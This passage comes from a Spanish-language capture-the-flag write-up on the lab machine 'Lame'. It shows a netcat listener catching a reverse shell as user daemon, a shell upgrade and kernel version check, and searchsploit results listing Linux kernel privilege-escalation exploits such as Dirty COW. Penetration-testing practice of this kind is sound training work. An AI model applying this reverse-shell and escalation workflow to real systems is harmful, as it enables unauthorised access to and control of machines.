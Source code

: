 ```bash
  ❯ nc -lvnp 4564
  listening on [any] 4564 ...
  connect to [10.10.14.6] from (UNKNOWN) [10.10.10.3] 54873
  whoami
  daemon
```

<p align="center">
<img src="/assets/images/lame/04-intrusion2.png">       
</p>

## ESCALADA DE PRIVILEGIOS KERNEL

Una vez tenemos acceso a la maquina vamos a realizar el escalamiento de permisos para poder obtener acceso privilegiado y control absoluto, en esta ocasión vamos a verificar la versión de kernel de la maquina víctima.

```bash
  script /dev/null -c bash
  daemon@lame:/tmp$ uname -a
  Linux lame 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
```

Realizamos la búsqueda de posibles exploits que logren dar acceso privilegiado a la máquina.

```bash
  ❯ searchsploit linux kernel 2.6.24
  --------------------------------------------------- ---------------------------------
   Exploit Title                                     |  Path
  --------------------------------------------------- ---------------------------------
  Linux Kernel (Solaris 10 / < 5.10 138888-01) - Loc | solaris/local/15962.c
  Linux Kernel 2.4.1 < 2.4.37 / 2.6.1 < 2.6.32-rc5 - | linux/local/9844.py
  Linux Kernel 2.4.4 < 2.4.37.4 / 2.6.0 < 2.6.30.4 - | linux/local/19933.rb
  Linux Kernel 2.6.0 < 2.6.31 - 'pipe.c' Local Privi | linux/local/33321.c
  Linux Kernel 2.6.10 < 2.6.31.5 - 'pipe.c' Local Pr | linux/local/40812.c
  Linux Kernel 2.6.17 < 2.6.24.1 - 'vmsplice' Local  | linux/local/5092.c
  Linux Kernel 2.6.19 < 5.9 - 'Netfilter Local Privi | linux/local/50135.c
  Linux Kernel 2.6.20/2.6.24/2.6.27_7-10 (Ubuntu 7.0 | linux/remote/8556.c
  Linux Kernel 2.6.22 < 3.9 (x86/x64) - 'Dirty COW / | linux/local/40616.c
  Linux Kernel 2.6.22 < 3.9 - 'Dirty COW /proc/self/ | linux/local/40847.cpp
  Linux Kernel 2.6.22 < 3.9 - 'Dirty COW PTRACE_POKE | linux/local/40838.c
  Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_PO | linux/local/40839.c
  Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' /proc/self | linux/local/40611.c
```
